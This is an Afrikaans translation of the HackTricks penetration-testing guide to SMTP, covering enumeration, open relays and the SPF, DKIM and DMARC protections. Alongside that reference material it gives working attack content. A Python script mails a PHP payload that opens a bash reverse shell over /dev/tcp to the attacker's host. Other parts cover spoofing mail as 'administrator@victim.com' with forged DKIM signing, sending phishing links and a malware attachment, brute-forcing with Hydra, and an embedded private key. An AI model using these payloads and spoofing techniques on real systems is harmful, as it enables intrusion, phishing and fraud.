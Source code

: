 # 25,465,587 - Pentesting SMTP/s

{{#include ../../banners/hacktricks-training.md}}

## **Basiese Inligting**

Die **Simple Mail Transfer Protocol (SMTP)** is 'n protokol wat binne die TCP/IP-suite gebruik word vir die **stuur en ontvang van e-pos**. Vanweë sy beperkings in die opstel van boodskappe aan die ontvanger se kant, word SMTP dikwels saam met **POP3 of IMAP** gebruik. Hierdie bykomende protokolle stel gebruikers in staat om boodskappe op 'n bediener se posbus te stoor en om dit periodiek af te laai.

In praktyk is dit algemeen dat **e-posprogramme** **SMTP gebruik om e-posse te stuur**, terwyl **POP3 of IMAP gebruik word om dit te ontvang**. Op stelsels wat op Unix gebaseer is, is **sendmail** die SMTP-bediener wat die meeste vir e-posdoeleindes gebruik word. Die kommersiële pakket bekend as Sendmail sluit 'n POP3-bediener in. Verder bied **Microsoft Exchange** 'n SMTP-bediener en die opsie om POP3-ondersteuning in te sluit.

**Standaard poort:** 25,465(ssl),587(ssl)
```
PORT   STATE SERVICE REASON  VERSION
25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
```
### EMAIL Headers

As jy die geleentheid het om die **slagoffer 'n e-pos te laat stuur** (via kontakvorm van die webblad byvoorbeeld), doen dit omdat **jy oor die interne topologie** van die slagoffer kan leer deur die koppe van die e-pos te sien.

Jy kan ook 'n e-pos van 'n SMTP-bediener kry deur te probeer **'n e-pos na daardie bediener te stuur na 'n nie-bestaande adres** (omdat die bediener 'n NDN-e-pos aan die aanvaller sal stuur). Maar, maak seker dat jy die e-pos van 'n toegelate adres stuur (kontroleer die SPF-beleid) en dat jy NDN-boodskappe kan ontvang.

Jy moet ook probeer om **verskillende inhoud te stuur omdat jy meer interessante inligting** op die koppe kan vind soos: `X-Virus-Scanned: by av.domain.com`\
Jy moet die EICAR-toetslêer stuur.\
Die opsporing van die **AV** mag jou in staat stel om **bekende kwesbaarhede** te benut.

## Basic actions

### **Banner Grabbing/Basic connection**

**SMTP:**
```bash
nc -vn <IP> 25
```
**SMTPS**:
```bash
openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS without starttls command
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
```
### Vind MX-bedieners van 'n organisasie
```bash
dig +short mx google.com
```
### Opname
```bash
nmap -p25 --script smtp-commands 10.10.10.10
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### NTLM Auth - Inligting openbaarmaking

As die bediener NTLM-authentisering (Windows) ondersteun, kan jy sensitiewe inligting (weergawe) verkry. Meer inligting [**hier**](https://medium.com/@m8r0wn/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666).
```bash
root@kali: telnet example.com 587
220 example.com SMTP Server Banner
>> HELO
250 example.com Hello [x.x.x.x]
>> AUTH NTLM 334
NTLM supported
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
334 TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```
Of **automate** dit met **nmap** plugin `smtp-ntlm-info.nse`

### Interne bediener naam - Inligting openbaarmaking

Sommige SMTP bedieners voltooi outomaties 'n sender se adres wanneer die opdrag "MAIL FROM" gegee word sonder 'n volledige adres, wat sy interne naam openbaar:
```
220 somedomain.com Microsoft ESMTP MAIL Service, Version: Y.Y.Y.Y ready at  Wed, 15 Sep 2021 12:13:28 +0200
EHLO all
250-somedomain.com Hello [x.x.x.x]
250-TURN
250-SIZE 52428800
250-ETRN
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8bitmime
250-BINARYMIME
250-CHUNKING
250-VRFY
250 OK
MAIL FROM: me
250 2.1.0 me@PRODSERV01.somedomain.com....Sender OK
```
### Sniffing

Kyk of jy 'n wagwoord uit die pakkette na poort 25 kan snuffel

### [Auth bruteforce](../../generic-hacking/brute-force.md#smtp)

## Gebruikersnaam Bruteforce Enumerasie

**Outentisering is nie altyd nodig nie**

### RCPT TO
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
MAIL FROM:example@domain.com
250 2.1.0 example@domain.com... Sender ok
RCPT TO:test
550 5.1.1 test... User unknown
RCPT TO:admin
550 5.1.1 admin... User unknown
RCPT TO:ed
250 2.1.5 ed... Recipient ok
```
### VRFY
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
VRFY root
250 Super-User root@myhost
VRFY blah
550 blah... User unknown
```
### EXPN
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
EXPN test
550 5.1.1 test... User unknown
EXPN root
250 2.1.5 ed.williams@myhost
EXPN sshd
250 2.1.5 sshd privsep sshd@myhost
```
### Outomatiese gereedskap
```
Metasploit: auxiliary/scanner/smtp/smtp_enum
smtp-user-enum: smtp-user-enum -M <MODE> -u <USER> -t <IP>
Nmap: nmap --script smtp-enum-users <IP>
```
## DSN Verslae

**Afleweringsstatus Kennisgewing Verslae**: As jy 'n **e-pos** na 'n organisasie stuur na 'n **ongeldige adres**, sal die organisasie jou in kennis stel dat die adres ongeldig was deur 'n **pos terug na jou** te stuur. **Koptekste** van die teruggestuurde e-pos sal **bevat** moontlike **sensitiewe inligting** (soos IP-adres van die posdienste wat met die verslae geinteraksie het of anti-virus sagteware inligting).

## [Opdragte](smtp-commands.md)

### Stuur 'n E-pos vanaf linux konsole
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a /tmp/malware.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```
### Stuur 'n E-pos met Python

<details>

<summary>Python kode hier</summary>
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = ""
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
print("[-]Connection Error")
exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
</details>

## SMTP Smuggling

SMTP Smuggling kwesbaarheid het toegelaat om al die SMTP beskermings te omseil (kyk die volgende afdeling vir meer inligting oor beskermings). Vir meer inligting oor SMTP Smuggling, kyk:

{{#ref}}
smtp-smuggling.md
{{#endref}}

## Mail Spoofing Teenmaatreëls

Organisasies word verhinder om ongeoorloofde e-pos namens hulle te laat stuur deur **SPF**, **DKIM**, en **DMARC** te gebruik weens die maklikheid van die vervalsing van SMTP-boodskappe.

'n **volledige gids tot hierdie teenmaatreëls** is beskikbaar by [https://seanthegeek.net/459/demystifying-dmarc/](https://seanthegeek.net/459/demystifying-dmarc/).

### SPF

> [!CAUTION]
> SPF [is "verouderd" in 2014](https://aws.amazon.com/premiumsupport/knowledge-center/route53-spf-record/). Dit beteken dat jy in plaas daarvan om 'n **TXT rekord** in `_spf.domain.com` te skep, dit in `domain.com` moet skep met die **dieselfde sintaksis**.\
> Boonop, om vorige spf rekords te hergebruik, is dit redelik algemeen om iets soos `"v=spf1 include:_spf.google.com ~all"` te vind.

**Sender Policy Framework** (SPF) is 'n mechanisme wat Mail Transfer Agents (MTAs) in staat stel om te verifieer of 'n gasheer wat 'n e-pos stuur, geoutoriseer is deur 'n lys van geoutoriseerde e-pos bedieners wat deur die organisasies gedefinieer is, te vra. Hierdie lys, wat IP adresse/reekse, domeine, en ander entiteite **geoutoriseer om e-pos namens 'n domeinnaam te stuur**, sluit verskeie "**Mechanismes**" in die SPF rekord in.

#### Mechanismes

Van [Wikipedia](https://en.wikipedia.org/wiki/Sender_Policy_Framework):

| Mechanisme | Beskrywing                                                                                                                                                                                                                                                                                                                         |
| --------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ALL       | Pas altyd toe; gebruik vir 'n standaard resultaat soos `-all` vir alle IP's wat nie deur vorige mechanismes pas nie.                                                                                                                                                                                                                                  |
| A         | As die domeinnaam 'n adres rekord (A of AAAA) het wat na die sender se adres opgelos kan word, sal dit pas.                                                                                                                                                                                                                   |
| IP4       | As die sender in 'n gegewe IPv4 adres reeks is, pas.                                                                                                                                                                                                                                                                              |
| IP6       | As die sender in 'n gegewe IPv6 adres reeks is, pas.                                                                                                                                                                                                                                                                              |
| MX        | As die domeinnaam 'n MX rekord het wat na die sender se adres oplos, sal dit pas (d.w.s. die e-pos kom van een van die domein se inkomende e-pos bedieners).                                                                                                                                                                          |
| PTR       | As die domeinnaam (PTR rekord) vir die kliënt se adres in die gegewe domein is en daardie domeinnaam na die kliënt se adres oplos (voorwaarts-bevestigde omgekeerde DNS), pas. Hierdie mechanisme word ontmoedig en moet vermy word, indien moontlik.                                                                                     |
| EXISTS    | As die gegewe domeinnaam na enige adres oplos, pas (maak nie saak na watter adres dit oplos nie). Dit word selde gebruik. Saam met die SPF makro-taal bied dit meer komplekse pasvorms soos DNSBL-vrae.                                                                                                                           |
| INCLUDE   | Verwys na die beleid van 'n ander domein. As daardie domein se beleid slaag, slaag hierdie mechanisme. As die ingeslote beleid egter misluk, gaan verwerking voort. Om heeltemal aan 'n ander domein se beleid te delegeer, moet die herlei uitbreiding gebruik word.                                                                                     |
| REDIRECT  | <p> 'n Herlei is 'n aanduiding na 'n ander domeinnaam wat 'n SPF beleid huisves, dit stel verskeie domeine in staat om dieselfde SPF beleid te deel. Dit is nuttig wanneer daar met 'n groot aantal domeine gewerk word wat dieselfde e-pos infrastruktuur deel.</p><p>Die SPF beleid van die domein wat in die herlei Mechanisme aangedui word, sal gebruik word.</p> |

Dit is ook moontlik om **Kwalifiseerders** te identifiseer wat aandui **wat gedoen moet word as 'n mechanisme pas**. Standaard word die **kwalifiseerder "+"** gebruik (so as enige mechanisme pas, beteken dit dit is toegelaat).\
Jy sal gewoonlik **aan die einde van elke SPF beleid** iets soos: **\~all** of **-all** opgemerk. Dit word gebruik om aan te dui dat **as die sender nie aan enige SPF beleid voldoen nie, jy die e-pos as onbetroubaar (\~) of verwerp (-) moet merk.**

#### Kwalifiseerders

Elke mechanisme binne die beleid kan voorafgegaan word deur een van vier kwalifiseerders om die beoogde resultaat te definieer:

- **`+`**: Kom ooreen met 'n PASS resultaat. Standaard neem mechanismes hierdie kwalifiseerder aan, wat `+mx` gelyk is aan `mx`.
- **`?`**: Verteenwoordig 'n NEUTRALE resultaat, wat soortgelyk behandel word aan NONE (geen spesifieke beleid).
- **`~`**: Dui SOFTFAIL aan, wat as 'n middelgrond tussen NEUTRAAL en FAIL dien. E-posse wat aan hierdie resultaat voldoen, word gewoonlik aanvaar maar dienooreenkomstig gemerk.
- **`-`**: Dui FAIL aan, wat suggereer dat die e-pos heeltemal verwerp moet word.

In die komende voorbeeld word die **SPF beleid van google.com** geïllustreer. Let op die insluiting van SPF beleide van verskillende domeine binne die eerste SPF beleid:
```shell-session
dig txt google.com | grep spf
google.com.             235     IN      TXT     "v=spf1 include:_spf.google.com ~all"

dig txt _spf.google.com | grep spf
; <<>> DiG 9.11.3-1ubuntu1.7-Ubuntu <<>> txt _spf.google.com
;_spf.google.com.               IN      TXT
_spf.google.com.        235     IN      TXT     "v=spf1 include:_netblocks.google.com include:_netblocks2.google.com include:_netblocks3.google.com ~all"

dig txt _netblocks.google.com | grep spf
_netblocks.google.com.  1606    IN      TXT     "v=spf1 ip4:35.190.247.0/24 ip4:64.233.160.0/19 ip4:66.102.0.0/20 ip4:66.249.80.0/20 ip4:72.14.192.0/18 ip4:74.125.0.0/16 ip4:108.177.8.0/21 ip4:173.194.0.0/16 ip4:209.85.128.0/17 ip4:216.58.192.0/19 ip4:216.239.32.0/19 ~all"

dig txt _netblocks2.google.com | grep spf
_netblocks2.google.com. 1908    IN      TXT     "v=spf1 ip6:2001:4860:4000::/36 ip6:2404:6800:4000::/36 ip6:2607:f8b0:4000::/36 ip6:2800:3f0:4000::/36 ip6:2a00:1450:4000::/36 ip6:2c0f:fb50:4000::/36 ~all"

dig txt _netblocks3.google.com | grep spf
_netblocks3.google.com. 1903    IN      TXT     "v=spf1 ip4:172.217.0.0/19 ip4:172.217.32.0/20 ip4:172.217.128.0/19 ip4:172.217.160.0/20 ip4:172.217.192.0/19 ip4:172.253.56.0/21 ip4:172.253.112.0/20 ip4:108.177.96.0/19 ip4:35.191.0.0/16 ip4:130.211.0.0/22 ~all"
```
Tradisioneel was dit moontlik om enige domeinnaam te spoof wat nie 'n korrekte/enige SPF rekord gehad het nie. **Tans**, as **e-pos** van 'n **domein sonder 'n geldige SPF rekord** kom, gaan dit waarskynlik **automaties verwerp/merk as onbetroubaar**.

Om die SPF van 'n domein te kontroleer, kan jy aanlyn gereedskap soos: [https://www.kitterman.com/spf/validate.html](https://www.kitterman.com/spf/validate.html)

### DKIM (DomainKeys Identified Mail)

DKIM word gebruik om uitgaande e-posse te teken, wat hul validasie deur eksterne Mail Transfer Agents (MTAs) moontlik maak deur die domein se publieke sleutel van DNS te verkry. Hierdie publieke sleutel is geleë in 'n domein se TXT rekord. Om toegang tot hierdie sleutel te verkry, moet 'n mens beide die selektor en die domeinnaam weet.

Byvoorbeeld, om die sleutel aan te vra, is die domeinnaam en selektor noodsaaklik. Hierdie kan in die e-pos kop `DKIM-Signature` gevind word, bv. `d=gmail.com;s=20120113`.

'n Opdrag om hierdie inligting te verkry, kan soos volg lyk:
```bash
dig 20120113._domainkey.gmail.com TXT | grep p=
# This command would return something like:
20120113._domainkey.gmail.com. 280 IN   TXT    "k=rsa\; p=MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1Kd87/UeJjenpabgbFwh+eBCsSTrqmwIYYvywlbhbqoo2DymndFkbjOVIPIldNs/m40KF+yzMn1skyoxcTUGCQs8g3
```
### DMARC (Domein-gebaseerde Boodskap Outentisering, Verslagdoening & Nakoming)

DMARC verbeter e-pos sekuriteit deur op SPF en DKIM protokolle te bou. Dit skets beleide wat posbedieners lei in die hantering van e-posse van 'n spesifieke domein, insluitend hoe om met outentikasiefoute om te gaan en waar om verslae oor e-posverwerkingsaksies te stuur.

**Om die DMARC rekord te verkry, moet jy die subdomein \_dmarc navraag doen**
```bash
# Reject
dig _dmarc.facebook.com txt | grep DMARC
_dmarc.facebook.com.	3600	IN	TXT	"v=DMARC1; p=reject; rua=mailto:a@dmarc.facebookmail.com; ruf=mailto:fb-dmarc@datafeeds.phishlabs.com; pct=100"

# Quarantine
dig _dmarc.google.com txt | grep DMARC
_dmarc.google.com.	300	IN	TXT	"v=DMARC1; p=quarantine; rua=mailto:mailauth-reports@google.com"

# None
dig _dmarc.bing.com txt | grep DMARC
_dmarc.bing.com.	3600	IN	TXT	"v=DMARC1; p=none; pct=100; rua=mailto:BingEmailDMARC@microsoft.com;"
```
#### DMARC-tags

| Tag Naam | Doel                                         | Voorbeeld                       |
| -------- | -------------------------------------------- | ------------------------------- |
| v        | Protokolweergawe                             | v=DMARC1                        |
| pct      | Persentasie van boodskappe wat aan filtrering onderwerp word | pct=20                          |
| ruf      | Verslag URI vir forensiese verslae         | ruf=mailto:authfail@example.com |
| rua      | Verslag URI van aggregaatverslae            | rua=mailto:aggrep@example.com   |
| p        | Beleid vir organisatoriese domein           | p=quarantine                    |
| sp       | Beleid vir subdomeine van die OD            | sp=reject                       |
| adkim    | Uitlijningmodus vir DKIM                     | adkim=s                         |
| aspf     | Uitlijningmodus vir SPF                      | aspf=r                          |

### **Wat van Subdomeine?**

**Van** [**hier**](https://serverfault.com/questions/322949/do-spf-records-for-primary-domain-apply-to-subdomains)**.**\
Jy moet aparte SPF-rekords hê vir elke subdomein waarvan jy e-pos wil stuur.\
Die volgende is oorspronklik op openspf.org gepos, wat eens 'n uitstekende hulpbron vir hierdie soort dinge was.

> Die Demon Vraag: Wat van subdomeine?
>
> As ek e-pos van pielovers.demon.co.uk ontvang, en daar is geen SPF-data vir pielovers nie, moet ek dan een vlak teruggaan en SPF vir demon.co.uk toets? Nee. Elke subdomein by Demon is 'n ander kliënt, en elke kliënt mag hul eie beleid hê. Dit sou nie sin maak dat Demon's beleid op al sy kliënte standaard van toepassing is nie; as Demon dit wil doen, kan dit SPF-rekords vir elke subdomein opstel.
>
> So die advies aan SPF-uitgewers is die volgende: jy moet 'n SPF-rekord vir elke subdomein of gasheernaam wat 'n A of MX-rekord het, byvoeg.
>
> Webwerwe met wildcard A of MX-rekords moet ook 'n wildcard SPF-rekord hê, van die vorm: \* IN TXT "v=spf1 -all"

Dit maak sin - 'n subdomein mag baie goed in 'n ander geografiese ligging wees en 'n baie ander SPF-definisie hê.

### **Open Relay**

Wanneer e-posse gestuur word, is dit van kardinale belang om te verseker dat hulle nie as spam gemerk word nie. Dit word dikwels bereik deur die gebruik van 'n **relay-server wat deur die ontvanger vertrou word**. 'n Algemene uitdaging is egter dat administrateurs dalk nie ten volle bewus is van watter **IP-reekse veilig is om toe te laat** nie. Hierdie gebrek aan begrip kan lei tot foute in die opstelling van die SMTP-server, 'n risiko wat gereeld in sekuriteitsassesseringe geïdentifiseer word.

'n Oplossing wat sommige administrateurs gebruik om e-posafleweringsprobleme te vermy, veral rakende kommunikasie met potensiële of lopende kliënte, is om **verbindinge van enige IP-adres toe te laat**. Dit word gedoen deur die SMTP-server se `mynetworks`-parameter te konfigureer om alle IP-adresse te aanvaar, soos hieronder getoon:
```bash
mynetworks = 0.0.0.0/0
```
Om te kontroleer of 'n e-posbediener 'n oop relais is (wat beteken dat dit e-pos van enige eksterne bron kan deurstuur), word die `nmap`-instrument algemeen gebruik. Dit sluit 'n spesifieke skrif in wat ontwerp is om dit te toets. Die opdrag om 'n gedetailleerde skandering op 'n bediener (byvoorbeeld, met IP 10.10.10.10) op poort 25 met behulp van `nmap` uit te voer, is:
```bash
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### **Gereedskap**

- [**https://github.com/serain/mailspoof**](https://github.com/serain/mailspoof) **Kontroleer vir SPF en DMARC miskonfigurasies**
- [**https://pypi.org/project/checkdmarc/**](https://pypi.org/project/checkdmarc/) **Kry outomaties SPF en DMARC konfigurasies**

### Stuur Vals E-pos

- [**https://www.mailsploit.com/index**](https://www.mailsploit.com/index)
- [**http://www.anonymailer.net/**](http://www.anonymailer.net)
- [**https://emkei.cz/**](https://emkei.cz/)

**Of jy kan 'n gereedskap gebruik:**

- [**https://github.com/magichk/magicspoofing**](https://github.com/magichk/magicspoofing)
```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```
> [!WARNING]
> As jy enige **fout kry met die dkim python lib** terwyl jy die sleutel ontleed, voel vry om hierdie een te gebruik.\
> **NOTA**: Dit is net 'n vuil oplossing om vinnige kontroles te doen in gevalle waar die openssl private sleutel **nie deur dkim ontleed kan word** nie.
>
> ```
> -----BEGIN RSA PRIVATE KEY-----
> MIICXgIBAAKBgQDdkohAIWT6mXiHpfAHF8bv2vHTDboN2dl5pZKG5ZSHCYC5Z1bt
> spr6chlrPUX71hfSkk8WxnJ1iC9Moa9sRzdjBrxPMjRDgP8p8AFdpugP5rJJXExO
> pkZcdNPvCXGYNYD86Gpous6ubn6KhUWwDD1bw2UFu53nW/AK/EE4/jeraQIDAQAB
> AoGAe31lrsht7TWH9aJISsu3torCaKyn23xlNuVO6xwdUb28Hpk327bFpXveKuS1
> koxaLqQYrEriFBtYsU8T5Dc06FQAVLpUBOn+9PcKlxPBCLvUF+/KbfHF0q1QbeZR
> fgr+E+fPxwVPxxk3i1AwCP4Cp1+bz2s58wZXlDBkWZ2YJwECQQD/f4bO2lnJz9Mq
> 1xsL3PqHlzIKh+W+yiGmQAELbgOdX4uCxMxjs5lwGSACMH2nUwXx+05RB8EM2m+j
> ZBTeqxDxAkEA3gHyUtVenuTGClgYpiwefaTbGfYadh0z2KmiVcRqWzz3hDUEWxhc
> GNtFT8wzLcmRHB4SQYUaS0Df9mpvwvdB+QJBALGv9Qci39L0j/15P7wOYMWvpwOf
> 422+kYxXcuKKDkWCTzoQt7yXCRzmvFYJdznJCZdymNLNu7q+p2lQjxsUiWECQQCI
> Ms2FP91ywYs1oWJN39c84byBKtiFCdla3Ib48y0EmFyJQTVQ5ZrqrOrSz8W+G2Do
> zRIKHCxLapt7w0SZabORAkEAxvm5pd2MNVqrqMJHbukHY1yBqwm5zVIYr75eiIDP
> K9B7U1w0CJFUk6+4Qutr2ROqKtNOff9KuNRLAOiAzH3ZbQ==
> -----END RSA PRIVATE KEY-----
> ```

**Of jy kan dit handmatig doen:**

{{#tabs}}
{{#tab name="PHP"}}

<pre class="language-php"><code class="lang-php"><strong># Dit sal 'n ongetekende boodskap stuur
</strong><strong>mail("your_email@gmail.com", "Toets Onderwerp!", "hey! Dit is 'n toets", "From: administrator@victim.com");
</strong></code></pre>

{{#endtab}}

{{#tab name="Python"}}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
<body>
<h3>This is a test, not a scam</h3>
<br />
</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
s = smtplib.SMTP(smtp)
s.sendmail(sender, [destination], msg_data)
```
{{#endtab}}
{{#endtabs}}

### **Meer inligting**

**Vind meer inligting oor hierdie beskermings in** [**https://seanthegeek.net/459/demystifying-dmarc/**](https://seanthegeek.net/459/demystifying-dmarc/)

### **Ander phishing-aanwysers**

- Domein se ouderdom
- Skakels wat na IP-adresse wys
- Skakel manipulasietegnieke
- Verdagte (ongewone) aanhangsels
- Gebroke e-posinhoud
- Waardes wat gebruik word wat verskil van die e-poskoppe
- Bestaans van 'n geldige en vertroude SSL-sertifikaat
- Indiening van die bladsy aan webinhoudfiltering webwerwe

## Eksfiltrasie deur SMTP

**As jy data via SMTP kan stuur** [**lees dit**](../../generic-hacking/exfiltration.md#smtp)**.**

## Konfigurasie lêer

### Postfix

Gewoonlik, as dit geïnstalleer is, in `/etc/postfix/master.cf` bevat **scripts om uit te voer** wanneer byvoorbeeld 'n nuwe e-pos deur 'n gebruiker ontvang word. Byvoorbeeld, die lyn `flags=Rq user=mark argv=/etc/postfix/filtering-f ${sender} -- ${recipient}` beteken dat `/etc/postfix/filtering` uitgevoer sal word as 'n nuwe e-pos deur die gebruiker mark ontvang word.

Ander konfigurasie lêers:
```
sendmail.cf
submit.cf
```
## Verwysings

- [https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/](https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/)
- [https://www.reddit.com/r/HowToHack/comments/101it4u/what_could_hacker_do_with_misconfigured_smtp/](https://www.reddit.com/r/HowToHack/comments/101it4u/what_could_hacker_do_with_misconfigured_smtp/)

## HackTricks Outomatiese Opdragte
```
Protocol_Name: SMTP    #Protocol Abbreviation if there is one.
Port_Number:  25,465,587     #Comma separated if there is more than one.
Protocol_Description: Simple Mail Transfer Protocol          #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for SMTP
Note: |
SMTP (Simple Mail Transfer Protocol) is a TCP/IP protocol used in sending and receiving e-mail. However, since it is limited in its ability to queue messages at the receiving end, it is usually used with one of two other protocols, POP3 or IMAP, that let the user save messages in a server mailbox and download them periodically from the server.

https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smtp/index.html

Entry_2:
Name: Banner Grab
Description: Grab SMTP Banner
Command: nc -vn {IP} 25

Entry_3:
Name: SMTP Vuln Scan
Description: SMTP Vuln Scan With Nmap
Command: nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 {IP}

Entry_4:
Name: SMTP User Enum
Description: Enumerate uses with smtp-user-enum
Command: smtp-user-enum -M VRFY -U {Big_Userlist} -t {IP}

Entry_5:
Name: SMTPS Connect
Description: Attempt to connect to SMTPS two different ways
Command: openssl s_client -crlf -connect {IP}:465 &&&& openssl s_client -starttls smtp -crlf -connect {IP}:587

Entry_6:
Name: Find MX Servers
Description: Find MX servers of an organization
Command: dig +short mx {Domain_Name}

Entry_7:
Name: Hydra Brute Force
Description: Need Nothing
Command: hydra -P {Big_Passwordlist} {IP} smtp -V

Entry_8:
Name: consolesless mfs enumeration
Description: SMTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_version; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_ntlm_domain; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_relay; set RHOSTS {IP}; set RPORT 25; run; exit'

```
{{#include ../../banners/hacktricks-training.md}}
